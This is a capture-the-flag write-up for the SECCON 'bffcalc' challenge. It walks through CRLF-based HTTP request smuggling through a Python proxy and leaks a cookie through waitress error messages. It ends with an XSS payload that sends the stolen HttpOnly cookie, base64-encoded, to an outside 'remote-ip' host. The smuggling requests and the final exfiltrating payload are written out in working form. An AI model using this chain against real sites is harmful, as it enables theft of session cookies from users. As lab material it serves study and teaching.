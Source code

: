 # Bffcalc writeup


## Request smuggling via crlf injection

As we can see, bff service just a proxy for backend service.
Let's check bff service sources:

```python
def proxy(req) -> str:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(("backend", 3000))
    sock.settimeout(1)

    payload = ""
    method = req.method
    path = req.path_info
    if req.query_string:
        path += "?" + req.query_string
    payload += f"{method} {path} HTTP/1.1\r\n"
    for k, v in req.headers.items():
        payload += f"{k}: {v}\r\n"
    payload += "\r\n"

    sock.send(payload.encode())
    time.sleep(.3)
    try:
        data = sock.recv(4096)
        body = data.split(b"\r\n\r\n", 1)[1].decode()
    except (IndexError, TimeoutError) as e:
        print(e)
        body = str(e)
    return body
```

Proxy function doesn't have CRLF injection check on parameters which inputs user.

Cherrypy server has automatic urldecoding of req.path_info parameter.

### HTTP smuggling PoC

Request:
```
GET /api%20HTTP/1.1%0d%0aHost:%20localhost:3000%0d%0a%0d%0aGET%20/  HTTP/1.1
Host: localhost:3000

```
Response:
```
HTTP/1.1 200 OK
Server: nginx/1.23.2
Date: Thu, 17 Nov 2022 18:58:35 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 158
Connection: keep-alive
Via: waitress

42HTTP/1.1 200 OK
Content-Length: 2
Content-Type: text/html;charset=utf-8
Date: Thu, 17 Nov 2022 18:58:35 GMT
Server: CherryPy/18.8.0
Via: waitress

42
```

## Leak header value by cherrypy errors printing

Our main goal - leak Cookie header value. The easiest way - leaking by server error print.
cherrypy server based on waitress uwsgi. 

Let's check uwsgi errors:

```
  if method != method.upper():
            raise ParsingError('Malformed HTTP method "%s"' % str(method, "latin-1"))
```

If server recongnize cookie contents as method - we won.
```
ourflag / HTTP/1.1

```

For regulation of starting smuggled request with incrorect header, we make POST request and just change Content-Length

Request (Direct request)
```
POST /api HTTP/1.1
Host: localhost:3000
Content-Type: application/x-www-form-urlencoded
Content-Length: 655

expra= HTTP/1.1
Remote-Addr: 172.27.0.2
Remote-Host: 172.27.0.2
Connection: upgrade
Host: localhost
X-Real-Ip: 172.27.0.1
X-Forwarded-For: 172.27.0.1
X-Forwarded-Proto: http
Content-Length: 0
Sec-Ch-Ua: "Chromium";v="107", "Not=A?Brand";v="24"
Accept: */*a=1;expar=1
Accept-Language: a=1;exapr=1
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Origin: http://localhost:3000
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:3000/
Accept-Encoding: gzip, deflate, br
Cookie: flag=SECCON{flag}; aaa=flag

```
For example, for this http request Content-Length is 655
Response
```
HTTP/1.1 200 OK
Content-Length: 2
Content-Type: text/html;charset=utf-8
Date: Thu, 17 Nov 2022 20:46:53 GMT
Server: CherryPy/18.8.0
Via: waitress

42HTTP/1.0 400 Bad Request
Connection: close
Content-Length: 84
Content-Type: text/plain; charset=utf-8
Date: Thu, 17 Nov 2022 20:46:53 GMT
Server: waitress

Bad Request

Malformed HTTP method "flag=SECCON{flag};"

(generated by waitress)
```

### XSS

On / endpoint of bff service we have a client with xss.
To check it just calculate something with `<img src="#" onerror="alert(1)">` 

### Combine all together

```
<img src="#" onerror="fetch('/%20HTTP/1.1%0d%0aHost:%20localhost:3000%0d%0aContent-Type:%20application/x-www-form-urlencoded%0d%0aContent-Length:%20I%0d%0a%0d%0aexpr=', { method: 'POST' } }).then(res=>res.text()).then(res=>fetch('http://remote-ip/?res='+window.btoa(unescape(encodeURIComponent(res)))))">
```
where I - Content-Length value (Need to brute)

Replace I to 464 and remote-ip to remote-ip we give flag
`SECCON{i5_1t_p0ssible_tO_s7eal_http_only_cooki3_fr0m_XSS}`
